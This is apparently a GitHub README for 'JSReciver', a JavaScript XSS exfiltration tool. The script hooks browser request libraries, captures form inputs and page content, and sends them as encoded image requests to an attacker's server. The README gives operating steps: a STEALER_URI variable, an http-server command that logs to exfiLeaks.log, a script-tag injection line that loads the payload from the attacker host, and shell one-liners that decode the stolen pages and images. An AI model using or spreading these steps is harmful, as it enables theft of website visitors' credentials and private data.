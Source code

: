 # JSReciver

### JSReciver v0.0 - @j0moz4 

This JavaScript script intercepts various types of HTTP requests made by different libraries and frameworks, such as:

 - Axios
 - Angular HttpClient
 - jQuery Ajax
 - Superagent
 - Request
 - Got
 - Fetch Mock
 - Vue Resource. 
 
It replaces the original functions used for making requests with modified versions that log information about the requests. The intercepted requests are logged by printing their details, such as the request URL, method, headers, and data, to the console. Additionally, the script includes a function called stealInfo that exfiltrates the intercepted request information to a specified URL. It does so by encoding the request data and sending it as a series of images loaded from the exfiltration URL.
The script also intercepts other web-related operations, such as: 

 - WebSocket connections
 - Beacon requests
 - XMLHttpRequests
 - Fetch API requests. 

It logs information about these operations and exfiltrates them in a similar manner as the intercepted HTTP requests. 
Furthermore, the script scans the webpage for elements with src or href attributes and logs and exfiltrates their values. It also collects data from HTML forms present on the page, including form actions, methods, and input field values. The form data is then logged and exfiltrated as well.
Overall, this script acts as a data interception and exfiltration tool, capturing and potentially sending sensitive information from various web requests and webpage elements to a specified exfiltration URL.

### CREATE WEB SERVER

```Edit the var "let STEALER_URI = '';" to your exfiltrationi server URI.```

#### Prepare server:
[https://www.npmjs.com/package/http-server](https://www.npmjs.com/package/http-server)

```sudo http-server --port 8080 -a 0.0.0.0 -d -i --cors > exfiLeaks.log```

#### Inject:
```<script src="http://STEALER_URI:8080/reciver.js"></script>```

### JSREVICER ONELINERS:

#### Detect webpages hash:
```cat exfiLeaks.log | grep "/0/PCFET0NUWVBFIGh0bWw" | awk -F'/' '{print $3}' | awk '!seen[$1]++'```
#### Web pages:
```cat exfiLeaks.log | grep "/exfil/<hash>/" | cut -d"/" -f4- |  awk '!seen[$1]++' | awk -F'.jpg' '{print $1}' | cut -d"/" -f2- | tr -d '\n' | base64 -d```

#### Detect images hash
```cat exfiLeaks.log | grep "/0/iVBORw0KGg" | awk -F'/' '{print $3}' | awk '!seen[$1]++'```
#### Images: 
```cat exfiLeaks.log | awk -F'/exfil/<hash>/' '{print $2}' | cut -d"/" -f2- | awk -F'.jpg' '{print $1}' | awk '!seen[$0]++' | tr -d '\n' | base64 -d > tal.png```

______________________________________________________________________________________________________________________________________________

## POC

##### Start server
![image alt](https://i.imgur.com/EbKGAvu.png "0")

##### Request recived
![image alt](https://i.imgur.com/l7lSTnP.png "1")

##### Extract content 
![image alt](https://i.imgur.com/QlSzAlB.png "2")


**Thnx to:** [https://github.com/hoodoer/XSS-Data-Exfil](https://github.com/hoodoer/XSS-Data-Exfil)
